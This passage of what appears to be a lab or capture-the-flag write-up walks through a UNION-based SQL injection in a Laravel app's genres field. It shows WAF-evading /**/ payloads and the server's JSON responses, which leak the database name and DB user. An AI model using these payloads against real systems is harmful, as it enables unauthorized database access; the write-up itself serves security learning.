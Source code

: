 - `/**/` → SQL comment blocks to bypass simple WAF/filters and whitespace rules.
    
- `UNION SELECT 1,2,3,4,5` → injects a second result-set that must **match the original SELECT’s column count and compatible types**.
    
- `#` → comments out the rest of the server’s SQL (MySQL style), preventing syntax errors.

with that said now we see exactly how the UNION SELECT is mapped to help further enumerate:
 `1,2,3,4,5` got mapped into the API’s JSON fields:

- `id` → `1`
    
- `file` → `"2"` → app later builds `url` as `/storage/2` from that
    
- `genre` → `"3"` → shown on the page as “genre: 3”
    
- `created_at` → `4` rendered as **Unix epoch 4s** (`1970-01-01…:04Z`)
    
- `updated_at` → `5` rendered as **Unix epoch 5s**

COOL!
lets now try this:` ') UNION SELECT 1,@@version,user(),database(),5#` = `food,')/**/UNION/**/SELECT/**/1,@@version,user(),database(),5#`

returns:
```
{
    "message": "Server Error"
}
```

lets try:
`food,')/**/UNION/**/SELECT/**/1,2,user(),database(),5#`

SUCCESS!
returns:
```
{"status":"success","data":{"id":28,"name":"hacker","email":"hacker@gmail.com","created_at":"2025-09-12T00:42:51.000000Z","updated_at":"2025-09-12T01:45:31.000000Z","admin":0,"genres":"food,')\/**\/UNION\/**\/SELECT\/**\/1,@@version,user(),database(),5#"}}
```

i notice that admin field is set to 0... prob is like boolean 0 = false, 1= true

didnt get the database -> `food,')/**/UNION/**/SELECT/**/1,database(),3,4,5#`

returns:
```
{"id":1,"file":"intentions","genre":"3","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"}
```

database = intentions

ill do same for user()
```
{"id":1,"file":"laravel@localhost","genre":"3","created_at":"1970-01-01T00:00:04.000000Z","updated_at":"1970-01-01T00:00:05.000000Z","url":"\/storage\/intentions"}
```

user = laravel@localhost
